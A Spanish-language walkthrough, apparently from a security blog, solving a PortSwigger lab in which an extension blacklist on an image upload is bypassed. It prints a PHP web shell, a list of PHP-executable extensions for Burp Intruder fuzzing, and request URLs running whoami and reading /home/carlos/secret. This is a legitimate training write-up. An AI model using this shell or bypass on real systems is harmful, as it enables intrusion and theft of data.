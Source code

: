 ```yaml
---
title: "Web shell upload via extension blacklist bypass"
description: "Laboratorio de Portswigger sobre File Upload Vulnerabilities"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - File Upload Vulnerabilities
tags:
  - File Upload Vulnerabilities
  - Web shell upload via extension blacklist bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser eludida debido a una falla fundamental en la `configuración` de esta `blacklist`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_6.png)

En Hacktricks hay una lista de extensiones que pueden interpretar código php [https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology), nos creamos una lista con estas extensiones

```
# cat extensions.txt 
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.php
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

Mandamos la petición al intruder de Burpsuite y seleccionamos la extensión

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_7.png)

Nos vamos a Payloads, pulsamos en Load, cargamos la lista de extensiones, en la parte inferior de esta ventana desmarcamos el `Payload encoding` y pulsamos en Start attack

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_8.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_9.png)

Desde el repeater de Burpsuite he ido mandando los payloads manualmente hasta que he dado con el .phar el cual si me ha interpretado `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=whoami`, he tenido que hacerlo de esta forma porque los archivos subidos se van eliminando

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_10.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_11.png)

Obtenemos el contenido del archivo secret `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_12.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Vulnerabilities-Lab-4/image_13.png)
